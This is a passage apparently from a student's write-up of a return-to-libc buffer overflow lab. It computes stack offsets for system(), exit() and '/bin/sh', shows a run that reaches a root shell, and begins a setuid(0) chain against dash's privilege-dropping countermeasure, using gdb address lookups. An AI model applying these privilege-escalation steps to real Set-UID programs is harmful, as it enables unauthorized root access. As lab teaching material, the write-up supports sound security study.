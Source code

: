 ```console
```

The distance between <code>%ebp</code> and <code>buffer</code> is <code>24</code> bytes. Once we enter the <code>system()</code> function, the value of <code>%ebp</code> has gained four bytes. Therefore:

```python
Y = 24 + 4 = 28
system_addr = 0xf7e08420

Z = 24 + 8 = 32
exit_addr = 0xf7dfaf80

X = 24 + 12 = 36
sh_addr = 0xf7f52352
```

Sucessfully obtained the root shell:

```console
$ vim task3.py
$ sudo chmod u+x task3.py
$ ./task3.py
$ ./retlib
Address of input[] inside main():  0xffffd238
Input size: 300
Address of buffer[] inside bof():  0xffffd200
Frame Pointer value inside bof():  0xffffd218
# whoami
root
```

## Task 4: Defeat Shell's Countermeasure

In this task, we would like to defeat the countermeasure that automatically drops privileges when they are executed in a <code>Set-UID</code> process. Let us first change the symbolic link back:

```bash
sudo ln -sf /bin/dash /bin/sh
```

One approach, as documented by [Yu Song](https://withhhsong.com/seedlab_return_to_libc/#Task_4_Defeat_Shells_countermeasure), let the exploit program first overwrite the return address of <code>bof()</code> in order to execute <code>setuid(0)</code>, in which case the parameter <code>0</code> (four-byte) is generated by calling <code>sprintf</code> four times. Then, make a call to <code>system("/bin/sh")</code>.

```console
gdb-peda$ p sprintf
$1 = {<text variable, no debug info>} 0xf7e16e40 <sprintf>
gdb-peda$ p setuid
$2 = {<text variable, no debug info>} 0xf7e8fe30 <setuid>
gdb-peda$ p system
$3 = {<text variable, no debug info>} 0xf7e08420 <system>
gdb-peda$ p exit
$4 = {<text variable, no debug info>} 0xf7dfaf80 <exit>
```
